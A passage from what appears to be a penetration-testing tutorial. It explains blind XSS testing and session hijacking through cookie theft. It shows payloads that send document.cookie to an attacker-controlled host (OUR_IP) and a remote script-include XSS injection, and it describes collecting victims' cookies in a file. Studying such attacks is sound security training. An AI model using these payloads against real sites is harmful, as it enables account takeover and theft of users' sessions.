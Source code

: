 Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.

Once we submit the form, we wait a few seconds and check our terminal to see if anything called our server. If nothing calls our server, then we can proceed to the next payload, and so on. Once we receive a call to our server, we should note the last XSS payload we used as a working payload and note the input field name that called our server as the vulnerable input field.

`Try testing various remote script XSS payloads with the remaining input fields, and see which of them sends an HTTP request to find a working payload`.

---

## Session Hijacking

Once we find a working XSS payload and have identified the vulnerable input field, we can proceed to XSS exploitation and perform a Session Hijacking attack.

A session hijacking attack is very similar to the phishing attack we performed in the previous section. It requires a JavaScript payload to send us the required data and a PHP script hosted on our server to grab and parse the transmitted data.

There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc):



```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Using any of the two payloads should work in sending us a cookie, but we'll use the second one, as it simply adds an image to the page, which may not be very malicious looking, while the first navigates to our cookie grabber PHP page, which may look suspicious.

We can write any of these JavaScript payloads to`script.js`, which will be hosted on our VM as well:


```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

Now, we can change the URL in the XSS payload we found earlier to use`script.js` (`don't forget to replace OUR_IP with your VM IP in the JS script and the XSS payload`):



```html
<script src=http://OUR_IP/script.js></script>
```

With our PHP server running, we can now use the code as part of our XSS payload, send it in the vulnerable input field, and we should get a call to our server with the cookie value. However, if there were many cookies, we may not know which cookie value belongs to which cookie header. So, we can write a PHP script to split them with a new line and write them to a file. In this case, even if multiple victims trigger the XSS exploit, we'll get all of their cookies ordered in a file.
